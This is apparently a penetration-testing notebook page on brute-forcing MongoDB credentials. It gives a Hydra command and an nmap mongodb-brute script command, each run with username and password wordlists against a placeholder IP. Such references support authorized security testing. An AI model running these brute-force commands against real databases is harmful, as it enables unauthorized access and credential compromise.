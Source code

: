 # MongoDB

## 01 - Hydra

```
$ hydra -L users.lst -P passwords.lst <IP> mongodb
```

## 02 - Network Mapper

```
$ nmap -p 27017,27018 -Pn -n --script mongodb-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Ports/Databases/NoSQL/MongoDB|Vulnerability Assessment: MongoDB]]